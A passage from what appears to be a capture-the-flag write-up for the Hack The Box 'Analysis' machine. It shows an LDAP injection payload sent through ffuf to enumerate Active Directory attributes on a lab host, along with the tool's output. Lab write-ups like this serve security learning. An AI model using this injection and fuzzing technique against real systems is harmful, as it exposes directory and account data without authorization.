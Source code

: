 ![8](/assets/img/Analysis/8.webp)

It is likely querying from LDAP. After some quick research, I came across [LDAP-Injection-Blind-LDAP-Injection](https://129538173-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2Fgit-blob-a58ea2462cf2b98a868750b068a00fa32ccb807b%2FEN-Blackhat-Europe-2008-LDAP-Injection-Blind-LDAP-Injection.pdf?alt=media). I used ffuf to fuzz the LDAP attributes.

Note: URL-encoding is needed (use `%26` instead of `&`), as it did not work for me without proper encoding

```bash
$ ffuf -u "http://internal.analysis.htb/users/list.php/?name=technician)(%26(FUZZ=*)" -w /usr/share/wordlists/seclists/Fuzzing/LDAP-active-directory-attributes.txt -fs 406,8           

        /'___\  /'___\           /'___\                                                                                                             
       /\ \__/ /\ \__/  __  __  /\ \__/                                                                                                             
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                                                                                                            
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                                                                                                            
         \ \_\   \ \_\  \ \____/  \ \_\                                                                                                             
          \/_/    \/_/   \/___/    \/_/                                                                                                             

       v2.1.0-dev                                                                                                                                   
________________________________________________                                                                                                    

 :: Method           : GET                                                                                                                          
 :: URL              : http://internal.analysis.htb/users/list.php/?name=technician)%28%26%28FUZZ%3D%2A%29                                          
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Fuzzing/LDAP-active-directory-attributes.txt                                             
 :: Follow redirects : false                                                                                                                        
 :: Calibration      : false                                                                                                                        
 :: Timeout          : 10                                                                                                                           
 :: Threads          : 40                                                                                                                           
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500                                                                         
 :: Filter           : Response size: 406,8
________________________________________________

accountExpires          [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 18ms]
badPasswordTime         [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 43ms]
badPwdCount             [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 46ms]
cn                      [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 43ms]
```